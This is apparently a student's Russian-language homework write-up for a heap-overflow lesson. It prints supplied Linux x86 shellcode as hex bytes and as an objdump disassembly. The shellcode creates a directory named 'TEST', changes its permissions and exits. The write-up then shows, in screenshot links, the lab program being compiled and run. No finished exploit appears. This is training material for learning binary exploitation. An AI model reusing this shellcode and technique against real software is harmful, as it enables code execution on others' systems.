 # Орехов Роман ДЗ № 2
Урок 5. Видеоурок 3 - Переполнение кучи

Разработать эксплойт, который бы содержал шелл-код с полезной нагрузкой для программы prog5 из видео 0х03.02. Обязательно убедиться в работоспособности шелл-кода (шелл-код будет предоставлен).

`$ cat mkdir_shell.str`

`\x31\xc0\x50\x68\x54\x45\x53\x54\xb0\x27\x89\xe3\x66\x41\xcd\x80\xb0\x0f\x66\xb9\xff\x01\xcd\x80\x31\xc0\x40\xcd\x80\xb0\x01\x31\xdb\xcd\x80`


`$ objdump -D -M intel mkdir_shell | grep -A16 "<shellcode>"`

```
0804a040 <shellcode>:
804a040: 31 c0 xor eax,eax
804a042: 50 push eax
804a043: 68 54 45 53 54 push 0x54534554
804a048: b0 27 mov al,0x27
804a04a: 89 e3 mov ebx,esp
804a04c: 66 41 inc cx
804a04e: cd 80 int 0x80
804a050: b0 0f mov al,0xf
804a052: 66 b9 ff 01 mov cx,0x1ff
804a056: cd 80 int 0x80
804a058: 31 c0 xor eax,eax
804a05a: 40 inc eax
804a05b: cd 80 int 0x80
804a05d: b0 01 mov al,0x1
804a05f: 31 db xor ebx,ebx
804a061: cd 80 int 0x80
```
Выполнение:

Переписал с методички текст проги

![изображение](https://github.com/Bravo-47/binary/assets/52736408/ce661979-afda-4d6c-b4de-e3bc2d4d2429)

Скомпилировал

![изображение](https://github.com/Bravo-47/binary/assets/52736408/00bba689-4d03-49f8-8fc7-7f9203de839f)

Запустил без параметров

![изображение](https://github.com/Bravo-47/binary/assets/52736408/dc4271e9-5247-433a-8740-64accd145e9e)

У меня почему-то сломалось приложение

![изображение](https://github.com/Bravo-47/binary/assets/52736408/8549b6f0-6c90-4013-87bb-817aae752674)

Опечатался, пропустил двойные кавычки

![изображение](https://github.com/Bravo-47/binary/assets/52736408/b022ecaf-c3e5-4454-8c2a-5a007b91cfdd)






